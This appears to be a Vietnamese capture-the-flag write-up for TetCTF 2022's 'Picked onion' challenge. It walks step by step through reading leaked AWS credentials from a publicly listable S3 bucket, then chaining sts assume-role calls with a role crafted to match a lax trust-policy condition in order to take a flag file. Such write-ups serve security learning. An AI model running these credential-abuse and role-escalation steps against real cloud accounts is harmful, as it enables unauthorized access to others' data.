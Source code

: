 ```yaml
---
title: TetCTF 2022 | Web Exploitation | Picked onion
date: 2022-01-03-15:17:00
---
```


# Picked onion

![chall](https://user-images.githubusercontent.com/82533607/147910715-ae6e2f99-a294-4397-88bb-878d50561751.png)

## Reconaisance

Truy cập vào URL, ta thấy có một mục có tên là `Secret`, thử truy cập và thấy một bức ảnh. Ctrl U (view-source) thì thấy bức ảnh `href` là một `s3 bucket` có tên là `secret-tetctf`:


![secret_img](https://user-images.githubusercontent.com/82533607/147911410-fa0489b2-e116-4a55-8f8c-3ebfe9588b4f.png)

Điều đáng chú ý ở đây, là khi sửa URL thành `https://secret-tetctf.s3.amazonaws.com/` thì ta thấy:


![first_leak](https://user-images.githubusercontent.com/82533607/147911956-a3d47c09-f901-4263-8f59-76a4fab0140e.png)

Có thể chia làm 3 đoạn như sau:

```
secret-tetctf1000false
I've_Got_a_Secret.jpg2021-12-31T07:12:14.000Z"8176cb55798ee6c7df58496312ca82d8"12949STANDARD
secret2021-12-31T07:15:50.000Z"1ace2f1a8925799880ad32ef47b3e9d9"1239STANDARD
```

Đây là một lỗi Access Control của S3 Bucket, tại đây, ta có thể thấy còn một file `secret` nữa, mình sẽ tải nó về bằng URL: `https://secret-tetctf.s3.amazonaws.com/secret` và đọc nó:


![secret_file](https://user-images.githubusercontent.com/82533607/147912573-6842e886-3c0d-4e54-a0bf-2e909c343f7e.png)

Ta thu được `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` và `REGION_NAME` của IAM User được sử dụng cho `dynamodb`.

## Exploit

Ban đầu khi đọc qua source code thì mình thấy nó giống hoàn toàn với [bài viết này](https://ctrsec.io/index.php/2021/12/19/python-deserialization-on-integrated-aws-ddb-flask-app/) của anh Chi Tran, nhưng tất nhiên, nếu vậy thì đơn giản quá:

![fail_1](https://user-images.githubusercontent.com/82533607/147912969-f153ba6d-61a9-491f-8b65-1ee78a979c63.png)

Có thể thấy, vấn đề ở đây là IAM User ddb_user mà ta ddnag sử dụng không có quyền hạn gì mấy để thực hiện exploit như bài viết ở trên.

Sau một hồi lục lọi trên doc của AWS thì mình thấy điều này:

```console
$ aws iam list-roles
{
    "Roles": [
        ...
        {
            "Path": "/",
            "RoleName": "CTF_ROLE",
            "RoleId": "AROAXNIS54O****************",
            "Arn": "arn:aws:iam::************:role/CTF_ROLE",
            "CreateDate": "2021-12-29T15:30:56Z",
            "AssumeRolePolicyDocument": {
                "Version": "2008-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "*"
                        },
                        "Action": "sts:AssumeRole",
                        "Condition": {
                            "StringLike": {
                                "aws:PrincipalArn": "arn:aws:iam::*:role/*-Accessing_Tet_CTF_Flag*"
                            }
                        }
                    }
                ]
            },
            "Description": "CTF_ROLE",
            "MaxSessionDuration": 3600
        }
    ]
}

```

Cùng hiểu một chút về đoạn JSON ở trên nhé?

Đây là một policy cho việc AssumeRole, ta thu được khá nhiều thông tin, đặc biệt nhất là Condittion cho việc AssumeRole, đó là chuỗi PrincipalArn trong request phải chứa một chuỗi `<anything>-Accessing_Tet_CTF_Flag<anything>`, cụ thể hơn thì chính xác cái user gửi request AssumeRole phải mang một IAM Role có tên với định dạng kể trên, như vậy, để thực hiện exploit, ta cần:

- Tạo một IAM User.

- Tạo một IAM Role có tên dưới dạng `<anything>-Accessing_Tet_CTF_Flag<anything>` mà IAM User vừa tạo có thể AssumeRole được.

- AssumeRole `<anything>-Accessing_Tet_CTF_Flag<anything>` vào IAM User đã tạo và lưu các creditials được trả về.

- AssumeRole `CTF_ROLE` ở trên và IAM User đã tạo, lưu lại creditials được trả về.

Giải thích lại một chút về ARN trong AWS, ARN là một chuỗi có dạng: `arn:partition:service:region:account:resource`, khi IAM User gửi bất kì request nào có yêu cầu credential, các chuỗi ARN sẽ được gửi đi, và chúng ta có thể sử dụng các chuỗi ARN này để viết policy phân quyền theo IAM Role cho các IAM User với điều kiện cụ thể.

Quay lại với vấn đề chính, vì không có AWS account để tạo IAM User nên mình đã inbox mượn anh Chi Tran một IAM User.

Sử dụng `aws configure` và điền các thông tin vào:

```console
$ aws configure
AWS Access Key ID [********************]: AKIAXNIS************
AWS Secret Access Key [********************]: VmK2ZWUVZ************************
Default region name [us-east-1]: 
Default output format [json]: 
```

Sau đó, tạo một file `Trust-policy.json`, sử dụng làm Policy cho Role mới (đừng làm theo ở thực tế, vì lý do bảo mật):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "*" // allow all, no condittion
      },
      "Action": "sts:AssumeRole",
      "Condition": {}
    }
  ]
}
```

Và sử dụng `aws iam create-role --role-name <anything>-Accessing_Tet_CTF_Flag<anything> --assume-role-policy-document file://Trust-policy.json` để tạo Role, nhớ note lại ARN ở output

AssumeRole:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/<anything>-Accessing_Tet_CTF_Flag<anything>" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/<anything>-Accessing_Tet_CTF_Flag<anything>/<anyname>"
    }
}
```

Lưu credential vào Env:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Tiến hành AssumeRole `CTF_ROLE`:

```console
$ aws sts assume-role --role-arn "arn:aws:iam::***************:role/CTF_ROLE" --role-session-name <anyname>
{
    "Credentials": {
        "AccessKeyId": "access_key_id_here",
        "SecretAccessKey": "secret_access_key_here",
        "SessionToken": "long_token_here",
        "Expiration": "2022-01-03T09:02:51Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "******************:<anyname>",
        "Arn": "arn:aws:sts::***************:assumed-role/CTF_ROLE/<anyname>"
    }
}
```

Và lại lưu credentials:

```console
$ export AWS_ACCESS_KEY_ID=<"AccessKeyId">
$ export AWS_SECRET_ACCESS_KEY=<"SecretAccessKey">
$ export AWS_SESSION_TOKEN=<"SessionToken">
```

Lúc này, ta đã có Role CTF_ROLE, nếu chưa chắc chắn, có thể kiểm tra bằng `aws sts get-caller-identity`, nếu thấy CTF_ROLE thì đã thành công.

Tiến hành list các bucket:

```console
$ aws s3api list-buckets --query "Buckets[].Name"
[
    "secret-tetctf",
    "tet-ctf-secret"
]
```

Vậy là ta thấy thêm một bucket nữa tên là `tet-ctf-secret`, kiểm tra xem trên đó có gì:

```console
$ aws s3 ls s3://tet-ctf-secret
2021-12-29 22:18:42         29 flag
```

Có file flag, thử lấy nó về và đọc:

```console
$ aws s3 cp s3://tet-ctf-secret/flag flag
download: s3://tet-ctf-secret/flag to ./flag 

$ cat flag
TetCTF{AssumE_R0le-iS-A-MuSt}
```

Done, flag: `TetCTF{AssumE_R0le-iS-A-MuSt}`

> Cảm ơn anh Chi Tran, đồng thời là người ra đề của chall này, đã cho em mượn IAM User và chỉ dẫn em trong quá trình giải, cũn như là học thêm kiến thức mới!
